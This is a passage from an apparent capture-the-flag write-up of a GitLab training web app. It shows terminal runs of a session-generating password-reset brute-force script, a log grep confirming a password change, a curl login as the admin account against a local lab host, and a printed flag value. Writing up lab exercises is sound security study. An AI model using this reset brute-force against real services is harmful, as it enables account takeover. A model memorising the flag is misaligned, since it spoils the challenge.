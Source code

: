 The script appears to be simulating a scenario where it generates a session and then attempts to reset a password using the generated session. It's designed to run indefinitely until manually stopped. Let’s see it in action!

```jsx
ctf-at-home master % chmod +x brute-force-generate-session-to-password-reset.sh
ctf-at-home master % ls brute-force-generate-session-to-password-reset.sh
-rwxr-xr-x  1 adam  staff  -  289B 16 Oct 20:21 brute-force-generate-session-to-password-reset.sh*
ctf-at-home master % ./brute-force-generate-session-to-password-reset.sh > logs.txt

..

ctf-at-home master % cat logs.txt | grep ";)"
password changed ;)Generating session...
```

```jsx
ctf-at-home master % curl -X GET -d "email=admin@thetanuki.io&password=password123" http://rst2.local.thetanuki.io/
<html><body>You are being <a href="http://rst2.local.thetanuki.io/users/sign_in">redirected</a>.</body></html>%

```

![Untitled](GitLab%20CTF%20CTF-ATHOME%20Web%20Application%20(Container)%20%20b32ad8085fa440688db96d98da5d35b6/Untitled%2023.png)

`[tanuki](ec41e13496a4388f10e116e2f13e6c66)`

![Untitled](GitLab%20CTF%20CTF-ATHOME%20Web%20Application%20(Container)%20%20b32ad8085fa440688db96d98da5d35b6/Untitled%2024.png)

---